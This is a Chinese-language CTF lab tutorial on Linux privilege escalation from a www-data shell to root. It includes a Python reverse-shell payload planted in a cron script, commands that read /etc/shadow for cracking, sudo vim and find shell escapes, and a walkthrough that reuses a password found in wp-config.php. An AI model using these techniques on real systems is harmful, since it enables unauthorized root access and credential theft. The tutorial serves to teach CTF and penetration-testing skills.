# CTF夺旗赛教程：P18：路径遍历与提权技术

在本节课中，我们将学习CTF竞赛中的一项核心技术——提权。提权是指当我们获得一个低权限用户（如`www-data`）的访问权限后，通过一系列技术手段，将其提升为系统最高权限用户（如`root`），从而完全控制目标主机并获取`flag`值。

上一节我们介绍了如何获取初始访问权限，本节中我们来看看如何从低权限用户提升到`root`权限。Linux系统的提权不仅涉及系统漏洞的利用，也涉及对系统配置的深入理解。提权的前提是已经获得了一个低权限的shell，并且目标机器上通常存在`nc`、`python`、`perl`等常见工具，我们可以利用这些工具逐步提升权限。同时，我们还需要具备上传和下载文件的能力。

## 实验环境搭建

以下是本次实验的环境配置：



*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：Linux系统，IP地址为 `192.168.253.21`。

实验目标是：我们已经通过反弹shell获得了靶机上`www-data`低权限用户的shell。接下来，我们将执行各种操作，尝试将权限提升至`root`，最终获取`flag`值。





## 提权方法详解



### 1. 内核漏洞提权 🐚

内核漏洞提权是最直接的提权方法之一，它利用操作系统内核中的安全漏洞来获取最高权限。然而，能够通用于所有系统的内核漏洞非常罕见。因此，我们首先需要收集系统信息。

以下是收集系统信息的常用命令：

*   **查看内核版本**：`uname -a`
*   **查看发行版本**：
    *   `cat /etc/issue`
    *   `cat /etc/*-release`

收集到系统版本信息后，可以使用`searchsploit`等工具搜索该版本是否存在已知的公开漏洞。如果存在可利用的内核溢出漏洞，通常的利用步骤如下：

1.  上传漏洞利用代码（例如`exploit.c`）到靶机。
2.  在靶机上编译该代码：`gcc exploit.c -o exploit`
3.  赋予编译后的程序执行权限：`chmod +x exploit`
4.  执行漏洞利用程序：`./exploit`

如果利用成功，执行后我们将获得`root`权限的shell。

### 2. 弱密码或密码复用 🔑

很多情况下，系统的`root`密码可能设置得过于简单，或者在其他服务中被复用。Linux系统的用户密码信息存储在`/etc/passwd`和`/etc/shadow`文件中。

*   `/etc/passwd`：所有用户可读，存储用户基本信息。
*   `/etc/shadow`：仅`root`用户可读写，存储加密后的密码哈希。

如果我们能读取这两个文件，就可以使用`unshadow`工具将它们合并，然后用`john`或`hashcat`等工具进行破解。如果成功破解出`root`密码，就可以尝试切换用户。

在低权限shell中，我们可以尝试查看这些文件：
```bash
cat /etc/passwd # 通常可读
cat /etc/shadow # 通常权限不足，无法读取
```

### 3. 利用计划任务 (Cron Jobs) ⏰

Linux系统中，计划任务（Cron Jobs）可以定时执行脚本。这些任务通常以`root`权限运行。如果某个以`root`权限运行的脚本或其所在目录，被错误地配置为低权限用户可写，我们就可以修改该脚本，插入反弹shell的代码。

例如，如果发现一个可写的Python脚本任务，可以将其替换为以下代码：
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("攻击机IP", 监听端口))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
然后在攻击机上使用`nc`监听对应端口，等待计划任务执行，即可获得一个`root`权限的shell。

我们可以查看系统计划任务：
```bash
cat /etc/crontab
ls -la /etc/cron* /var/spool/cron/*
```

### 4. 利用SUDO权限提升 ⚡

如果当前低权限用户被配置了`sudo`权限，可以执行某些特定的`root`命令，这将是绝佳的提权途径。使用`sudo -l`命令可以列出当前用户允许以`root`身份执行的命令。

例如，输出中可能显示：
```
User www-data may run the following commands on target:
    (root) NOPASSWD: /usr/bin/vim, /usr/bin/find
```
这意味着用户可以无需密码，以`root`身份运行`vim`或`find`命令。这些命令本身可能被用来启动一个shell。

**以`vim`提权为例：**
1.  运行 `sudo vim /etc/passwd`
2.  在`vim`中，输入`:!sh`或`:!bash`
3.  此时获得的shell就拥有`root`权限。

**以`find`提权为例：**
```bash
sudo find /etc/passwd -exec /bin/sh \;
```
这条命令会以`root`权限执行`/bin/sh`。

### 5. 信息收集与密码挖掘 🕵️




当上述直接方法都无效时，深入的信息收集至关重要。我们需要在文件系统中寻找可能泄露密码的配置文件，例如Web应用程序（WordPress, Joomla等）、数据库配置文件、用户历史文件（`.bash_history`）、备份文件等。



**操作流程示例：**
1.  检查当前用户的家目录及其他用户目录：`ls -la /home/`
2.  切换到可疑用户目录：`cd /home/otheruser`
3.  查找配置文件：`find . -name “*.php” -o -name “*.conf” -o -name “config*”`
4.  查看文件内容，寻找数据库连接字符串、API密钥等敏感信息：`cat wp-config.php`
5.  尝试密码复用：用找到的密码尝试SSH登录其他用户或`su`切换用户。



## 实战演练：从信息收集到成功提权



在本次实验的靶机中，我们通过信息收集，在`/home/zico/wordpress/`目录下找到了`wp-config.php`文件，其中包含了数据库用户名`zico`和密码`S.WF.CSFGSP.V9H.3AMQZW8`。

1.  **尝试密码复用**：我们尝试用此密码通过SSH登录`zico`用户，成功获得一个更稳定的shell。
    ```bash
    ssh zico@192.168.253.21
    ```
2.  **检查SUDO权限**：登录后，运行`sudo -l`，发现`zico`用户可以无需密码以`root`身份运行`vim`命令。
3.  **利用SUDO提权**：运行`sudo vim /etc/passwd`，然后在vim命令行中输入`:!sh`，成功获得`root`权限的shell。
4.  **寻找Flag**：最后，在`/root`目录下找到并读取`flag`文件。
    ```bash
    cd /root
    cat flag.txt
    ```





## 总结



本节课我们一起学习了CTF中几种常见的Linux提权技术。从最直接的内核漏洞利用，到对弱密码、计划任务、`sudo`配置的利用，再到通过细致的信息收集挖掘密码进行横向移动，提权的思路是多样化的。在实际的CTF比赛或渗透测试中，往往需要结合多种方法，保持开阔的思路，耐心地进行信息枚举和尝试。记住，成功提权的关键在于对目标系统深入的理解和发现配置疏忽的能力。